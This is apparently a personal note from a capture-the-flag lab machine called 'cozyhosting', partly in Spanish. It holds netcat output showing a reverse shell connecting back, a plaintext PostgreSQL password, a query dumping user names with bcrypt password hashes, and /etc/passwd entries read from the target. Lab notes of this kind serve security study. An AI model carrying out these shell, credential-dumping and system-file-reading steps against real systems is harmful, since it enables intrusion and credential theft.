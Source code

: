 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.230] 51082

contraseña postresql Vg&nvzAQ7XxR

cozyhosting=# SELECT name,password from users;
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm


root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
